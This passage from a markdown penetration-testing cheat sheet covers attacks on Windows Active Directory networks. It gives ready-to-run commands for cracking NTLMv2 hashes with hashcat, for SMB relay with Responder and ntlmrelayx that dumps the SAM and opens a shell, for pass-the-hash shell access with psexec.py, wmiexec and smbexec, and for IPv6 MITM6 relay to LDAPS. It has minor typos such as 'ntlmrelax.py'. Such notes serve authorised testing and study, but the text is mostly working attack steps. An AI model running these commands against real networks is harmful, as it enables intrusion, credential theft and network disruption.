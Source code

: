     # Running hashcat with a rule
    hashcat -a 0 -m 5600 <hashes file> <wordlist> -r OneRule
    ```
### SMB Relay 
  * Requirements
    - SMB Signing must be disabled or not enforced on the target
    - Relayed user credentials must be admin on machine for any real value
  * Detection
    ```bash
    nmap --script=smb2-security-mode.nse -p 445 <target ip>

    #nmap scan the network
    nmap --script=smb2-security-mode.nse -p 445 <Network/CIDR> -Pn | grep not
    ```
  * Attack
    - Change responder config.
      - Turn off SMB and HTTB
      ```bash
      sudo vim /etc/responder/Responder.conf
      ```
    - Run Responder
    ```bash
    sudo responder -I <iface> -dwP
    ```
    - Run ntlmrelayx.py (Impacket-ntlmrelayx)
    ```bash
    ntlmrelax.py -tf <targets txt> -smb2support
    ```
    - If the attack is successful, ntlmrelayx will dump the SAM and drop us into a shell

### Shell Access
  * PSExec in Metasploit
  * psexec.py (Impacket)
    ```bash
    # with password
    psexec.py <domain/user>:<password>@<ip>

    # with hash
    psexec.py <user>@<ip> -hashes <LM:NT>
    ```
  * wmiexec.py
    Same options as psexec
  * smbexec.py
    Same options as psexec

### IPv6 Attacks
  * MITM6  
    :warning: this will cause network issues if run for longer than 5 or 10 minutes
    ```bash
    sudo mitm6 -d <domain>
    ```
    ```bash
    ntlmrelayx.py -6 -t ldaps://<ip> -wh fakewpad.<domain> -l <loot folder>
    ```
### Passback Attack
  * [Printers](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)

